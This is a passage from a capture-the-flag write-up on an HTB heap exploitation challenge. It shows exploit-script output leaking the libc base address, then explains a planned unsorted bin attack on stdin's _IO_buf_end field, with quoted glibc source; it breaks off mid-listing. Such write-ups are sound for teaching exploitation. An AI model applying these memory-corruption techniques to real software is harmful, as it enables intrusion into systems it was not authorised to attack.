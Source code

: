Which gives:
```Shell
nasm@off:~/Documents/pwn/HTB/apocalypse/onceAndmore$ python3 exploit.py LOCAL GDB NOASLR
[*] '/home/nasm/Documents/pwn/HTB/apocalypse/onceAndmore/once_and_for_all'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'/home/nasm/Documents/pwn/HTB/apocalypse/onceAndmore/out'
[!] Debugging process with ASLR disabled
[+] Starting local process '/usr/bin/gdbserver': pid 31378
[*] running in new terminal: ['/usr/bin/gdb', '-q', '/home/nasm/Documents/pwn/HTB/apocalypse/onceAndmore/once_and_for_all', '-x', '/tmp/pwn1z_5e0ie.gdb']
[*] libc: 0x7ffff79e4000
```

We now have achieved the first step of the challenge: leak the libc base address.

## What can we target in the libc ?

There are a lot of ways to achieve code execution according to what I red in other write-ups, I choose to attack `_IO_stdin` by running an unsorted bin attack on its `_IO_buf_end` field which holds the end of the internal buffer of `stdin` from `_IO_buf_base`, according to the [glibc source code](https://elixir.bootlin.com/glibc/glibc-2.27/source/libio/fileops.c#L469):
```c
int
_IO_new_file_underflow (_IO_FILE *fp)
{
  _IO_ssize_t count;
#if 0
  /* SysV does not make this test; take it out for compatibility */
  if (fp->_flags & _IO_EOF_SEEN)
    return (EOF);
#endif

  if (fp->_flags & _IO_NO_READS)
    {
      fp->_flags |= _IO_ERR_SEEN;
      __set_errno (EBADF);
      return EOF;
    }
  if (fp->_IO_read_ptr < fp->_IO_read_end)
    return *(unsigned char *) fp->_IO_read_ptr;

  if (fp->_IO_buf_base == NULL)
    {
      /* Maybe we already have a push back pointer.  */
      if (fp->_IO_save_base != NULL)
	{
	  free (fp->_IO_save_base);
	  fp->_flags &= ~_IO_IN_BACKUP;
	}
      _IO_doallocbuf (fp);
    }

  /* Flush all line buffered files before reading. */
  /* FIXME This can/should be moved to genops ?? */
  if (fp->_flags & (_IO_LINE_BUF|_IO_UNBUFFERED))
    {
#if 0
      _IO_flush_all_linebuffered ();
#else
      /* We used to flush all line-buffered stream.  This really isn't
```
